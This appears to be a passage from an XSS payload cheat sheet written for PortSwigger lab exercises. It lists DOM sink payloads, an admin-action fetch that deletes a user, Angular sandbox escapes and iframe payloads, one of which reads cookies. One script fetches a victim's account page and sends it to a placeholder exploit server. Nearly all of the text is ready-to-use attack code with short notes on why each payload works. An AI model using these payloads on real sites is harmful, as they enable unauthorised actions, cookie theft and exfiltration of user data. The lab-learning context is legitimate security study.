 ### DOM Sink Exploits
```javascript
// For innerHTML sink
#"><img src=x onerror=alert(document.domain)>

// For document.write sink
#<script>alert(document.domain)</script>

// For jQuery $(..)'s sink
#<img src=x onerror=alert(document.domain)>

// For eval() sink
#';alert(document.domain)//
```
*Pro tip: Different sinks require different payload structures - adapt to the context.*

## PortSwigger Lab-Specific Payloads

### Admin Panel Action Triggers
```javascript
<script>
fetch('/admin/delete?username=carlos', {
  credentials: 'include'
})
</script>
```
*Why it works: Forces admin user to perform actions while logged in using credentials inclusion.*

### Exfiltration Payloads
```javascript
<script>
fetch('/my-account')
.then(r=>r.text())
.then(t=>{
  fetch('https://YOUR-EXPLOIT-SERVER.exploit-server.net/log?data='+encodeURIComponent(t))
})
</script>
```
*Why it works: Fetches sensitive data and sends it to your exploit server.*

### Angular Sandbox Escape
```javascript
{{constructor.constructor('alert(document.domain)')()}}
{{$on.constructor('alert(document.domain)')()}}
```
*Why it works: Accesses constructor properties to build function objects that execute arbitrary code.*

### iframe-Based Exploits
```javascript
<iframe src="javascript:alert(document.domain)"></iframe>
<iframe srcdoc="<img src=x onerror=alert(parent.document.domain)>"></iframe>
<iframe onload="alert(this.contentWindow.document.cookie)"></iframe>
```
*Why it works: iframes create new browsing contexts that can interact with parent page.*

